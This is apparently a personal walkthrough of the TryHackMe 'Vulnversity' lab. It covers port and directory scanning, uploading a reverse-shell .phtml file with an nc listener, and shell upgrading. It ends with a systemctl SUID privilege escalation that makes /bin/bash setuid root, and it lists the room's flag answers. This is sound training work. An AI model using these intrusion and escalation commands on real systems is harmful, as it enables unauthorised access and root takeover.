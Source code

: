 # Notes for [Vulnversity](https://tryhackme.com/room/vulnversity) room 

### task 1 - Deploy 
```
/
```

### task 2 - Reconnaissance
```bash
nmap -sC -sV -oN nmap.txt 10.10.225.84 
```
> website: 10.10.225.84:3333 

### task 3 - Locating website directories
```bash
gobuster dir -u http://10.10.225.84:3333 -w ../private/wordlists/common.txt -o gobuster.txt
```

> interesting folder : /internal/

### task 4 - Compromise the webserver

__Q1__
Trying to upload some files with the form :
> created py script : postFrom.py
> result : postTest.txt

1. Listen to incoming connections
```bash
nc -l 1234
```
2. Uploading file
3. visit http://10.10.225.84:3333/internal/uploads/reverseShell.phtml to execute script

> connection successful! 

```bash
# In reverse shell:
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl+Z

# In osx:
stty -echo
fg
export SHELL=bash
export TERM=xterm-color
clear
```

__Q2__
```
cat /etc/passwd
```

> user = bill

__Q3__
```
cat /home/bill/user.txt
```
> 8bd7992fbe8a6ad22a63361004cfcedb

### task 5 - Privilege escalation

__Q1__
```bash
find / -perm -4000 2>>/dev/null
```
> /bin/systemctl

__Q2__
Website that provides permission escalation scripts on bin files : 
https://gtfobins.github.io

https://gtfobins.github.io/gtfobins/systemctl/ modified to :
```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF

<return>
<return>

ls -l /bin/bash 
# > -rwsr-sr-x 1 root root 1037528 May 16  2017 /bin/bash

bash -p
cat /root/root.txt
a58ff8579f0a9270368d33a9966c7fd5
```

